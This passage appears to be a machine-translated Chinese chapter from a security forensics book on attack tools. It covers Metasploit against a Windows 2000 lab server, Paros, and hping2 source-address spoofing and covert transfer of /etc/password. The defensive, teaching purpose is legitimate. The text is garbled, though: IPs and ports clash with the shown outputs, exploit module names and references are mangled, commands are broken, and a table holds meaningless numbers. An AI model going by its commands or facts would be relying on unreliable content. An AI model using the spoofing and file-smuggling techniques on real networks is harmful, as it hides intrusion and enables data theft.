在我写这些内容时，MSF 的当前版本可以在 metasploit.org/download/ 下载。该文件名为 "framework-3.1.tar.gz"，大小为 1076364 字节，在我家里下载大约需要 10 秒。将 tar 包解压到 /usr/local/src 后，会产生名为 framework-3.1 的新目录。

在安装了一些额外的包后，我能够在 VMware 中的 Ubuntu 7.10 版本上运行 MSF。除了传统的命令行和 Web GUI 接口外，版本 3.1 还是图 5.10 所示的“实验性”Ruby 基 GUI。

# 5.10 Ruby 基 GUI



> http://metasploit.com/dev/trac/wiki/Metasploit3/Install
> ² www.ruby-lang.org/en/2002/12/01.html

Metasploit Framework (MSF) 最初是用 Perl 编写的，后来用 Ruby 重写。它是一个用于渗透测试和安全审计的强大工具。MSF 包含大量的利用程序、载荷和辅助模块。该框架被安全专业人员用于发现、利用和验证系统和网络中的漏洞。

（注：后续重复段落已按要求省略）


# 第 5 章 章 十大黑客利用工具

## 图 5.12 Metasploit



现在你已经知道 MSF 有一个可以使用 Ruby 在本地运行的图形用户界面（GUI），如果你正在对单个系统进行取证分析（该系统很可能是坏人的工作站），那么这就完全没问题，原因如下：要运行该 GUI，你必须安装并运行 Ruby。这会占用大量的内存，并且在任何业务系统中都会显得非常显目，这从我的 Ubuntu 机器上运行 `top` 命令的结果可以看出。Ruby 进程占了 6.4% 的内存，这看起来可能并不多，但与其他进程相比：其他没有任何进程的占比超过 0.03%，相比之下，这比仅次最大的进程还要大出 213 倍。

www.syngress.com

## 图 5.13 内存使用



| | | | | | | | | | | | | | | | | | | | | |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---||
| 5346 | | 15 | 3172 | 3028 | 5 | 6 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 5190 | | 15 | 3172 | 3028 | 5 | 6 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 17168 | | 15 | 7184 | 1170 | 8 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 2620 | | 15 | 7184 | 1170 | 8 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 3 | | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 3 root | | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 5 root | | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 5 root | | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 26 root | | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 28 root | | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 92 root | | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 106 root | | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 116 root | | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
| 117 root | | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |

Module: exploit/windows/msclient/messenger_trojan

此模块利用了 Symantec Client 3.0.0 中的栈溢出。该模块未针对 Symantec Client 3.0.2 build 10.2.2005 进行过测试。此漏洞程序由 Lyd000.net 编写。

参考文献：
- http://www.exploit-db.com/exploits/21107
- http://www.exploit-db.com/exploits/21108
- http://www.exploit-db.com/exploits/21109
- http://cheese.se/home/index.php?ac2000681

入侵者为什么要（推测是为了）费额外的精力去安装 MSF 呢？答案是……再次，知道 GUI 的存在并运行在 Ruby 上是好事，但我认为最好处理那些你在任何其他环境中都见不到的情况。在较大的企业环境中，你可能会看到什么？

在我的示例中，我同时使用命令行和 GUI 对本地的 Windows 2000 发起了攻击。我选择的攻击是 Windows/smb/064。通过命令行界面，我的目标是 192.168.10.125（我的 Windows 2000 服务器），使用本地端口 34333，并负载为 Windows/bind_tcp。

## 图 5.14 目标 Windows 2000 服务器



在发起攻击之前，我启动了 Wireshark 以查看攻击的 TCP 流量。

## 图 5.15 使用 Wireshark 观察流量



如图 5.15 所示，MSF 主机 192.168.10.117 发送了多个数据包到目标缓冲区。一旦溢出发生，TCP 连接在端口 5585 和 34333 的主机之间建立。

## 图 5.16 管理员命令



从目标主机，我打开命令行并运行 `netstat` 查看连接到我的 Ubuntu 机器。如图 5.17 所示，在 localhost 和 192.168.10 之间存在已连接。

## 图 5.17 本地主机连接

```
C:\WINDOWS\System32>
netstat -ano

Proto  Local Address               Foreign Address         State           PID
TCP    0.0.0.0:135              0.0.0.0              LISTENING        1024
TCP    127.0.0.1:46552          0.0.0.0              LISTENING        1024
TCP    0.0.0.0:445              0.0.0.0              LISTENING        444
TCP    192.168.1.15:51232       192.168.1.1:4444       ESTABLISHED     5678
TCP    127.0.0.1:51233          127.0.0.1:51233        ESTABLISHED     5678
TCP    192.168.1.15:51234       192.168.1.1:4444       ESTABLISHED     5678
TCP    192.168.1.15:51235       192.168.1.1:4444       ESTABLISHED     5678
TCP    192.168.1.15:51236       192.168.1.1:4444       ESTABLISHED     5678
```



从 GUI 发起的相同攻击具有相同的签名。特别感兴趣的是留下的图 5.18。

## 图 5.18 接口产物



如图 5.18 所示，URL 是 localhost 或环回地址。这是基于偏好的，并且可以通过 Web 进行更改。

## 图 5.19 从 GUI 运行漏洞



一旦我关闭窗口，我就有一个反向 shell（浏览器历史）。这更容易读了。

```
C:\WINDOWS\System32>
netstat -ano

Proto  Local Address               Foreign Address         State           PID
TCP    0.0.0.0:135              0.0.0.0              LISTENING        1024
TCP    127.0.0.1:46552          0.0.0.0              LISTENING        1024
TCP    0.0.0.0:445              0.0.0.0              LISTENING        444
TCP    192.168.1.15:51232       192.168.1.1:4444       ESTABLISHED     5678
TCP    127.0.0.1:51233          127.0.0.1:51233        ESTABLISHED     5678
TCP    192.168.1.15:51234       192.168.1.1:4444       ESTABLISHED     5678
TCP    192.168.1.15:51235       192.168.1.1:4444       ESTABLISHED     5678
TCP    192.168.1.15:51236       192.168.1.1:4444       ESTABLISHED     5678
TCP    192.168.1.15:51237       192.168.1.1:4444       ESTABLISHED     5678
```


## 132 第 5 章 - 黑客工具箱

### Paros

Paros 是一款由启安信科技（Chinotec Technologies）开发的免费交互式 HTTP 代理，在百大网络安全工具排名中位列第 16 位。Paros 允许 Web 应用安全审计人员拦截并修改从客户端 浏览器到 Web 服务器的请求。此外，Paros 还具有一些自动爬虫和扫描功能，对于 Web 网站探索非常有用。启安信科技兄弟公司 Milescan 生产了改进型 Paros 扫描器——Milescan Web Security Auditor，它提供了增强的扫描和 URL 爬取技术。然而，与 Paros 不同，Milescan Web Security Auditor 需要年度订阅才能使用。

Paros 是类似于 nmap 和 nessus 的工具之一，旨在供安全专业人员（在本例中为 Web 开发人员）使用，但也被黑客用于主动侦察（recon）。侦察的第一步是执行爬虫或选择 Analyzer（参见图 5.20）。

#### 图 5.20 Paros 爬虫遍历



图 5.20 显示了来自我们朋友 www.syngress.com 的爬虫结果部分。基本上，Paros 会访问选定的 Web 网站，并在用户定义的范围内探索所有可能的目录路径（默认深度为 3 层）。

还要注意，目标在 Web 中没有识别为 `target=1` 以外的任何内容。我从 Wireshark 中捕获了 TCP 数据，它显示了从我的本地 `192.168.1.10` 到目标主机 `192.168.1.25` 的连接，使用我选定的端口 3333。要得出结论，你需要关联其他日志信息，如防火墙日志或事件日志。在执行日志关联时，你必须确保理解并记录主机所记录的日期和时间。涉及的两个主机可能处于不同的时区，而 syslog 服务器可能在第三个时区。另一种可能性是入侵者更改了受攻击服务器上的日期/或时间以混淆日志。必须对所有相关信息进行仔细组织，以确保你对发生了什么以及发生的时间有一个准确的把握。

这里提供的示例只是 MSF 提供的数百种可能性中的一种。关键信息不在于漏洞本身，而在于漏洞是如何执行的、它在链路上看起来是什么样，以及留下了什么样的痕迹。寻找 MSF 使用迹象的一些关键位置是所有用户的 shell、浏览器历史文件（我使用的是 Firefox，它将这些信息保存在名为 history.dat 的文件中）以及网络日志。根据你了解的及其工作原理，你不仅能够判断这是否是入侵的一部分，还能判断它是如何使用的、可能针对哪个主机、攻击了哪个漏洞以及使用了哪种有效负载（payload）。

不要只听我的。去 MSF 首页下载 Framework，并在实验室环境中测试不同的攻击场景。使用 Wireshark 等工具捕获 TCP 数据，这样你就可以看到攻击启动时链线上实际上发生了什么。如果你知道入侵中使用了 MSF，请尝试尽可能地模拟客户网络来重现攻击，并对你所知（或认为）发生的事情进行足迹分析。在捕获数据后，比较这些数据以查看是否有任何相似之处。

注意这段历史片段中的几点：
1. 启动的 shell 为：Metasploit Framework Console v3.1 release。
2. 连接到 localhost 以及后续的负载列表为：http://127.0.0.1:55555/exploits/list
3. 运行的漏洞选择是：windows:ms06_04_netapi。

#### 图 5.21 针对 Lotus



#### 图 5.23 查看原始响应




# 第 5 章 • 黑客工具前 10 名

真的必须使用事件相关性，并祈祷客户记录了传入的 Web 请求。如果不是，一个精练的 Paros 攻击者可能会绕过你的监控。

## hping2 - 活跃网络粉碎工具

看着“活跃网络粉碎工具”的名字，你就知道这没什么好事！Hping2 是一种用于向目标主机发送控制消息报协议 (ICMP)/TCP/UDP 数据包的工具，支持 ICMP，并在前 100 大网络安全工具调查中排名第 6。它还可以处理分片包、任意数据包正文和大小，并用于在不支持的协议下传输文件。Hping2 可用于：

- 测试防火墙规则
- 执行伪造端口扫描
- 测试网络性能
- 执行路径最大传输单元（MTU）发现
- 跨越即使是最严格的防火墙规则传输数据
- 运行 traceroute（针对非标准协议）
- 移除操作系统指纹
- 审计 TCP/IP 栈

让我们回溯一下，看看我们正在处理的是什么。我们有一个命令行工具，它几乎可以完成用户对数据包能做的任何操作，所有人、任何地方都可以通过 www.hping.org/download.php 获取。我确定开发者 Salvatore Sanilippo 并没有打算创建一个网络版的“弗兰肯斯坦怪物”。然而，他确实做到了。作为一名安全专业人员和法医调查员，没有哪个工具比这更令我害怕。

让我们来看一个基础示例。我的 Ubuntu 7.10 主机（Forensic1）的 IP 地址为 192.168.10.117，我的 Fedora Core 8 主机（Forensic2）的 IP 地址为 192.168.10.120。使用 hping2，我执行了以下命令 `hping2 192.168.10.120 -V -1 -a 192.168.10.200 -K 8`。该命令调用 hping2 进入详细模式 (-V)、进入模式 1 (ICMP)、伪造源地址 (-a) 为 192.168.10.200，并使用 ICMP (-K 8，ICMP 回显请求）。参见图 5.24。）

## 图 5.24 伪造源地址



如图 5.24 所示，当从 Forensic1 发时，源 IP 地址并没有被捕获为 192.168.10.117，而是 192.168.10.200。但要注意，源地址是 .200，这将是 ICMP 0回复包的目标地址。入侵者不仅需要掌握使用此工具的知识，还需要知道如何破解其生成的网络流量（伪造/空闲扫描）。在这种情况下，ICMP 回复被发送到伪造的 IP，而不是真实的 IP 地址。因此，虽然 hping2 成功隐藏了入侵者的踪迹，但问题变成了他如何接收回程流量。更糟糕，如果他根本不在乎是否收到响应怎么办？

入侵者可能不想或不需要接收回复包的一些原因是：她或他正在进行主动/空闲扫描，并且拥有网络内多个主机的访问权限。他或她可能正在使用“快速”开关进行拒绝服务 (DoS) 攻击（快速开关每秒发送 10 个数据包，因此这更快，但受限于工具的信号驱动设计）。或者他或她可能向目标发送一个特殊构造的数据包，其结果将显而易见（例如主机将崩溃）。或者他可能在使用 `-file` 开关发送文件内容，如 `/etc/password`，这将填充数据包的内容。这些任何一种场景以及其他几十种情况都是可能的，并且在假设客户有充分的网络和防火墙日志的情况下，这些情况很难被发现。

让我们看看我提到的最后一个例子，入侵者如何使用 hping2 发送文件。在这种场景中，假设他正尝试向同一网络内的另一个主机发送 `/etc/password` 的内容。通过这种方式，hping2 的工作方式非常像 Netcat，你有一个“发送者”和一个“接收者”，只是 hping2 在你构建数据包时为你提供了更多的灵活性。

首先，我们必须创建一个签名文件。当数据包被签名时，它会让接收主机知道捕获任何包含该签名文件的内容。在这个示例中，我在当前工作目录下创建了一个名为 `signature.sig` 的文件。它包含一个单词，“cepogue”。接下来，我们将使用 UDP 将 `signature.sig` 文件发送到接收主机。在接收主机上，我启动了绑定到 eth0 的 tcpdump，使用 `tcpdump –i eth0 –nX proto 17`。接下来，在发送主机上，通过执行命令 `hping2 192.168.10.121 -121 -2 d 50 –p 7 –sign signature.sig` 发送 `signature.sig` 文件。如图 5.25 所示，接收主机上的 tcpdump 输出显示我的签名文件已发送。

## 图 5.25 tcpdump 输出

```
$ tcpdump -i eth0 -n -v icmp proto
08:24:56.12345 IP 192.168.1.1 > 192.168.1.2: ICMP echo request, id 1234, ttl 64, length 98
    ip (tot length 98, identification 45678, offset 0, flags 0x0, ttl 64, id 192.168.1.1 > 192.168.1.2)
    icmp (type 8,
```


# 第 5 章 • 黑客工具前 10

发往或来自单个主机的 ICMP 请求数量。以图 5.27 为例，从 forensic1 到 forensic3 的单个 ICMP 数据包并不可疑；然而，在 30 秒内有 102 个数据包可能会引起警报。

记住，这只是一个例子。Hping2 还可以使用 TCP 或 UDP（如我在 signature.sig 文件中的示例所示）来发送数据，这正是它如此危险的原因。将任何看起来可疑的内容提交给客户进行讨论，由他们来判断流量是正常的还是需要再次检查。

不要只听我的！请在实验室环境中下载 hping2¹⁵ 和 Wireshark¹。测试一下这个实用程序，看看它能做什么，并记录它留下的特征。你在实验室花费的时间，可能是破破案件与让入侵者逍遥法外的关键区别。

# Ettercap

